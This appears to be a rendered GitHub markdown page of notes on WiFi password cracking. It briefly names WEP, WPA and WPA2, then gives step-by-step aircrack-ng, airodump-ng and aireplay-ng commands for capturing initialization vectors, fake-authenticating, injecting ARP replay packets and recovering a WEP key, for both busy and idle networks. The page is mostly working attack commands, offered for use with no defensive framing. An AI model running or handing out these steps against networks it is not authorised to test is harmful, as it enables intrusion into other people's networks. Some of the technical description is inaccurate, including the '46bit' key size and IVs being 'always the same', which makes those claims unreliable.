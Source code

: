 Wifi networks are (usually) protected by password. This is encrypted with one of the following methods:

* WEP : *explanation* 128bit and 46bit
* WPA
* WPA2



### Crack WEP

Oldest one

Easiest the break

Each package is encrypted with a 24bit Initialization Vector (IV)  which is always the same for all packages.

For cracking this kind of protocol, we collect a number of packages in order to guess the key.

#### Crack WEP encrypted wireless - Busy network

```bash
# list networks around us
airodump-ng [MONITOR-INTERFACE: e.g.: mon0] 

# sniff traffic in order to get the key, based on number of IVs found
airodump-ng --bssid [MAC] --channel [CHANNEL] --write [OUTPUT-FILE] [MONITOR-INTERFACE: e.g.: mon0] 

# analyse the file and crack the network
aircrack-ng [OUTPUT-FILENAME-USED-ABOVE-01.cap: e.g.: basic-test-ap-01.cap]
```



The command will fail if the number of **IVs** is not enough. It will start again automatically, just wait!

Once the key is found, the output will prompt the wifi password. Just use it connect it, removing the colon (**:**).



#### Crack WEP encrypted wireless - No busy network: Fake authentication

In this case we inject packets into the network, in order to force the target to send packets.

```bash
# Authenticate our MAC in order to let the Target not to ignore our packets
aireplay-ng --fakeauth 0 -a [MAC-TARGET] -h [MAC-MY-CARD] [MONITOR-INTERFACE: e.g.: mon0] 

# Inject packets
aireplay-ng --arpreplay -b [MAC-TARGET] -h [MAC-MY-CARD] [MONITOR-INTERFACE: e.g.: mon0]
# the command will display the output file (.cap) which needs to be used in the next command

# analyse the file and crack the network
aircrack-ng [OUTPUT-FILENAME-USED-ABOVE-01.cap: e.g.: basic-test-ap-01.cap]
```
